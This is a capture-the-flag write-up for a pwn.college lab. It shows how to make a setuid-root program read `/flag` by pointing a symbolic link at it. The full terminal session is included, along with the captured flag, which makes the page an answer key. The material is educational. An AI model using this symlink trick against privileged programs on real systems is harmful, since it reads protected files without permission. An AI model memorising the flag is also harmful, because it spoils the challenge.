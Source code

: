**Flag:** `pwn.college{82TKZrr-4TanmGKQ8RWhPVMVRX-.QX5ETN1wyMwkjNzEzW}` 

The process of obtaining the flag using ls -l and linking the file to flag.

```
hacker@commands~linking-files:~$ ls -l /challenge/catflag
-rwsr-xr-x 1 root root 123 Jan 14  2025 /challenge/catflag
hacker@commands~linking-files:~$ ls -l /home/hacker/not-the-flag
ls: cannot access '/home/hacker/not-the-flag': No such file or directory
hacker@commands~linking-files:~$ ln -s /flag /home/hacker/not-the-flag
hacker@commands~linking-files:~$ ls -l /home/hacker/not-the-flag
lrwxrwxrwx 1 hacker hacker 5 Sep 26 20:15 /home/hacker/not-the-flag -> /flag
hacker@commands~linking-files:~$ /challenge/catflag
About to read out the /home/hacker/not-the-flag file!
pwn.college{82TKZrr-4TanmGKQ8RWhPVMVRX-.QX5ETN1wyMwkjNzEzW}
```

## What I Learned

Symbolic links are like shortcuts which are super useful for tricking programs into reading stuff they normally can’t.

## References

None